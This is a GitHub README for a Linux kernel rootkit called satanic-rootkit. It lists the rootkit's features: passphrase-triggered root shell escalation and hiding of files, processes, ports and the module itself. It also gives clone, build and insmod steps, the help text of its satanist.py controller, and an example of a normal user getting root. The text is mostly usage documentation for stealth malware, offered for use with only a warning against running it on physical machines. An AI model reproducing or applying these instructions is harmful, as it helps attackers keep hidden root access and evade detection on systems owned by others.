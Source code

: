 <div align="center">
  <img src="https://github.com/aesophor/satanic-rootkit/blob/master/.meta/banner.jpg">
  <b>CAUTION: Do NOT test this on physical machines!</b>
</div>

## Overview
* Local privilege escalation (grant root shell)
* File/directory hiding **by absolute path**
* Process hiding by PID
* Port hiding
* Hides the rootkit module itself
* ...

## Usage
After inserting `satan.ko` into Linux kernel, one can use `satanist.py` to command the rootkit.
```
> ./satanist.py --help                 
usage: ./satanist.py <command> [argument]

--privesc <passphrase>     -- Spawn a root shell (bash).
--file-hide <path>         -- File/directory hiding by absolute path.
--file-unhide <path>       -- File/directory unhiding by absolute path.
--proc-hide <pid>          -- Process hiding by PID.
--proc-unhide <pid>        -- Process unhiding by PID.
--port-hide <port>         -- Port hiding by port number.
--port-unhide <port>       -- Port unhiding by port number.
--mod-hide                 -- Module hiding (hide itself from lsmod).
--mod-unhide               -- Module unhiding (unhide itself from lsmod).

-h --help                  -- Help message.
-v --version               -- Version info.
```

## Tested On
* Debian 9 stretch 4.9.0-11

## Build Requirements
* gcc
* GNU Make
* Linux headers

## Installation
1. Build kernel module.
```
$ git clone https://github.com/aesophor/satanic-rootkit.git
$ cd satanic-rootkit
$ make
```

2. Insert kernel module as root.
```
root# insmod satan.ko
```

3. Run satanist.py as normal user to command the rootkit.
```
$ ./satanist.py --help
```

4. Profit (?)
```
$ ./satanist.py --privesc 'Hail Satan!'
# whoami
root
```

## License
Available under [GPL-2.0 License](https://github.com/aesophor/satanic-rootkit/blob/master/LICENSE)
